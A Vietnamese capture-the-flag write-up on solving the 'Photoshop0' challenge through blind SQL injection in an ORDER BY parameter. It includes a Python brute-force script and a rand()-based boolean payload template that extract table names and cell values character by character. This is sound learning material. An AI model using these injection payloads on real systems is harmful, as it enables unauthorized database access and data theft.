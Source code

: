 Chúng ta truy cập vào trang http://photoshop0.scoreboard.ns01.info/ và có giao diện:

![alt text](https://raw.githubusercontent.com/Alic3Margatroid/ctfsv/master/Photoshop0/home.PNG)

Lướt qua 1 số link và test thử, ta thấy ở link All pictures, trường order bị lỗi sqli. Ví dụ như ta cho order=1 và order=2 thay vì order=id, thứ tự của các bức ảnh được hiển thị sẽ bị thay đổi. 

Thú vị hơn: nếu chúng ta cho order=rand(true) và order=rand(false) thứ tự sẽ thay đổi, với rand(false) cho kết quả thứ tự giống với order=id (cthulhu.png đứng sau hacker.png trong source code), dẫn tới ý tưởng sử dụng được boolean, và từ đó dùng blind sqli để bruteforce giá trị mong muốn.

Ví dụ chúng ta có thể viết 1 hàm như sau để scan giá trị độ dài của bảng information_schema.tables:

def scan_length(url):
        query = '?order=rand((select count(*) from information_schema.tables)='
        for i in range(1,1000):
                newquery = query + str(i) + ')'
                response = requests.get(url+newquery)
                try:
                        if response.text.index('cthulhu.png') < response.text.index('hacker.png'):
                                print i
                                break
                except:
                                break

Và để tìm giá trị 1 ô nào đó, chúng ta dùng:
?order=rand((select ascii(substring(''column'',x,1)) from ''table'' limit 1)=y
trong đó:
	''column'' là tên cột
	x là chữ cái thứ bao nhiêu của cell đó
	''table'' là tên bảng
	y là giá trị bruteforce ascii của chữ cái đó

Chỉnh sửa code để scan các giá trị quan trọng, chúng ta có 1 số thông số:

64 tables
615 columns

TABLE:
users
pictures
categories
flag

COLUMN:
FLAG

Vậy là chúng ta có các giá trị bảng và cột cần tấn công ở đây là flag và FLAG. Sau khi scan chúng ta có flag:

![alt text](https://raw.githubusercontent.com/Alic3Margatroid/ctfsv/master/Photoshop0/flag.PNG)

flag: Flag{0rder_Sql1}
